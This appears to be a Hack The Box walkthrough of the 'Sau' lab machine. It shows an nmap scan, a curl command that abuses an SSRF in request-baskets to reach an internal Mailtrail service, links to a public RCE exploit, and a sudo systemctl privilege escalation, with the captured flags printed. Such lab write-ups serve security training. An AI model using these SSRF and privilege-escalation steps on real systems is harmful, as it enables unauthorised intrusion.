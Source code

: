 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit, SSRF]
---
```


# Sau
![Untitled](/Vulnhub-Files/img/Sau/Untitled.png)

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ sudo nmap -sC -sV -T4 10.10.11.224 -oN Nmap_results.txt
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-29 12:45 IST
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 29 Aug 2023 07:17:19 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 29 Aug 2023 07:16:43 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 29 Aug 2023 07:16:45 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data.
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sau/Untitled%201.png)

After clicking on create button →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%202.png)

```bash
Basket 'nxhtzfm' is successfully created!

Your token is: 8fREKdr_kiHy5fuFJce3w5JPrnQ5zlnnhzTVJ4CUo62O
```

I got a dashboard which keeps log of the URL activity →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%203.png)

Through web recon I got to know about the vulberability that this site is affected to so I got this →

[Exploit](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3/)

Now I set the options and all the Settings options through curl with the new directory named as `shell` →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ curl --location 'http:/10.10.11.224:55555/api/baskets/shell' --header 'Content-Type: application/json' --data '{"forward_url": "http:/127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
{"token":"ZLVtatdn0yuct7Sy8iOpI9t0VryjYQL68vTkd-TX8HMT"}
```

I accessed the `http:/10.10.11.224:55555/api/baskets/shell`  page I got this 

![Untitled](/Vulnhub-Files/img/Sau/Untitled%204.png)

I also tried to set these below options on curl →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%205.png)

Now Lets access the url directly `http:/10.10.11.224:55555/shell`and I got this →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%206.png)

Now with some web recon I find out that this `Mailtrail (v0.53)` is vulnerable and can give me RCE so I used this exploit →

[Exploit](https://www.exploit-db.com/exploits/51676/)

![Untitled](/Vulnhub-Files/img/Sau/Untitled%207.png)

I got the shell now its time for dig in into the shell for root access →

```bash
puma@sau:~$ ls -al
ls -al
total 36
drwxr-xr-x 4 puma puma 4096 Aug 29 05:24 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
-rw------- 1 puma puma  556 Aug 29 05:24 .viminfo
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 29 04:08 user.txt
puma@sau:~$ cat user.txt
cat user.txt
9d18067025cba80f61b19105560f6662
puma@sau:~$ 
```

Now lets see how this user can get me to root →

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$
```

Now from gtfobin site I got the payload that gona get me root →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%208.png)

Now  I used it and got this →

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
```

![Untitled](/Vulnhub-Files/img/Sau/Untitled%209.png)

```bash
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Aug 29 09:58 .
drwxr-xr-x 20 root root 4096 Jun 19 09:41 ..
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun 19 09:41 .cache
-rw-------  1 root root   31 Aug 29 09:58 .lesshst
drwxr-xr-x  3 root root 4096 Jun  8 11:03 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr 14 17:38 .ssh
-rw-r--r--  1 root root   39 Jun  8 11:05 .vimrc
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .wget-hsts -> /dev/null
drwxr-xr-x  4 root root 4096 Jun 19 09:41 go
-rw-r-----  1 root root   33 Aug 29 04:08 root.txt
#
# cat root.txt
2754674b979d814022ef84fa0cdd965b
#
```